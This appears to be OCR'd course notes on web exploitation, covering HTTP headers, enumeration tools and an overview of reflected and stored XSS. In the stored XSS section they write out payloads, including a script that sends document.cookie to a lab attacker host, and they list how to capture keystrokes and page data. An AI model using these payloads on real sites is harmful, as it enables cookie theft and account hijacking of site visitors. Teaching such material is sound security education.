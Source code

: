     User-Agent
    Referer
    Cookie
    Date
    Server
    Set-Cookie

JavaScript Interaction
```
<script>
function myFunction() {
    document.getElementById("demo").innerHTML = "Paragraph changed.";
}
```
```
</script>
<script src="https://www.w3schools.com/js/myScript1.js"></script>

    JS Demo - http://10.50.XX.XX/java/Javademo.html
```
Enumeration

    ROBOTS.TXT
        If you find this file, go to it and enumerate (There might be something important here)
    Legitimate surfing
    Tools:
        NSE scripts
        Nikto
        Burp suite (outside class)

Cross-Site scripting (XSS) Overview

    Insertion of arbitrary code into a webpage, that executes in the browser of visitors
    Unsanitized GET, POST, and POST methods allow JS to be placed on websites
    Often found in forums that allow HTML

Reflected XXS

    Most common form of XSS
    Transient, occurs in error messages or search results
    Delivered through intermediate media, such as a link in an emial
    Characters that are normally illegal in URLs can be Base64 encoded

Stored XSS

    Resides on vulnerable site
    Only requires user to visit page
    <img src="http://invalid" onerror="window.open('http://10.50.XX.XX:8000/ram.png','xss','height=1,width=1');">
    <script>document.location="http://10.50.24.xxx:8000/"+document.cookie;</script>
Useful Javascript components

    Proof of concept (simple alert)
        <script>alert('XSS');</script>
    Capturing Cookies
        document.cookie
    Capturing Keystrokes
        bind keydown and keyup
    Capturing Sensitive Data
        document.body.innerHTML
